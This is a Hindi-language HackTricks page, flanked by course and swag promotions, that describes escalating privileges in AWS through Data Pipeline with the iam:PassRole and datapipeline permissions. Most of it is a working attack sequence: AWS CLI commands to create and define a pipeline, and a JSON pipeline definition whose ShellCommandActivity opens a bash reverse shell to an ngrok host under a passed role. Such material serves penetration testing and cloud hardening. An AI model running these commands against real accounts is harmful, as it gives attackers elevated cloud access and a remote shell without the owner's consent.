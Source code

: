 # AWS - Datapipeline Privesc

<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें.

</details>

## datapipeline

datapipeline के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md" %}
[aws-datapipeline-codepipeline-codebuild-and-codecommit.md](../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md)
{% endcontent-ref %}

### `iam:PassRole`, `datapipeline:CreatePipeline`, `datapipeline:PutPipelineDefinition`, `datapipeline:ActivatePipeline`

एक हमलावर जिसके पास `iam:PassRole`, `datapipeline:CreatePipeline`, `datapipeline:PutPipelineDefinition,` और `datapipeline:ActivatePipeline` अनुमतियां हों, वह **एक पाइपलाइन बनाकर और उसे अपडेट करके किसी भी AWS CLI कमांड को चलाने या अन्य संसाधनों को बनाने के लिए अधिकार बढ़ा सकता है**, या तो एक बार या एक अंतराल पर, उस भूमिका की अनुमतियों के साथ जो पास की गई थी।
```bash
aws datapipeline create-pipeline --name my_pipeline \
--unique-id unique_string
```
जो एक खाली पाइपलाइन बनाएगा। फिर हमलावर को **पाइपलाइन की परिभाषा को अपडेट** करने की जरूरत है ताकि यह बताया जा सके कि उसे क्या करना है, इस तरह के कमांड के साथ:
```json
{
"objects": [
{
"id" : "CreateDirectory",
"type" : "ShellCommandActivity",
"command" : "bash -c 'bash -i >& /dev/tcp/8.tcp.ngrok.io/13605 0>&1'",
"runsOn" : {"ref": "instance"}
},
{
"id": "Default",
"scheduleType": "ondemand",
"failureAndRerunMode": "CASCADE",
"name": "Default",
"role": "assumable_datapipeline",
"resourceRole": "assumable_datapipeline"
},
{
"id" : "instance",
"name" : "instance",
"type" : "Ec2Resource",
"actionOnTaskFailure" : "terminate",
"actionOnResourceFailure" : "retryAll",
"maximumRetries" : "1",
"instanceType" : "t2.micro",
"securityGroups" : ["default"],
"role" : "assumable_datapipeline",
"resourceRole" : "assumable_ec2_profile_instance"
}]
}
```
{% hint style="info" %}
ध्यान दें कि **लाइन 14, 15 और 27** में **role** एक ऐसा role होना चाहिए जिसे datapipeline.amazonaws.com द्वारा मान्यता प्राप्त हो और **लाइन 28** में role एक ऐसा role होना चाहिए जिसे ec2.amazonaws.com द्वारा मान्यता प्राप्त हो साथ ही EC2 प्रोफाइल इंस्टेंस के साथ।

इसके अलावा, EC2 इंस्टेंस केवल उसी role तक पहुँच प्राप्त कर सकेगा जिसे EC2 इंस्टेंस द्वारा मान्यता प्राप्त हो (इसलिए आप केवल उसी को चुरा सकते हैं)।
{% endhint %}
```
aws datapipeline put-pipeline-definition --pipeline-id unique_string \
--pipeline-definition file:///path/to/my/pipeline/definition.json
```
जहां **पाइपलाइन परिभाषा फ़ाइल में एक निर्देश होता है जो एक कमांड चलाने या AWS API का उपयोग करके संसाधन बनाने के लिए कहता है** जो हमलावर को अतिरिक्त विशेषाधिकार प्राप्त करने में मदद कर सकता है।

**संभावित प्रभाव:** ec2 सेवा भूमिका के लिए सीधा privesc निर्दिष्ट।

## संदर्भ

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) **का पालन करें**।
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
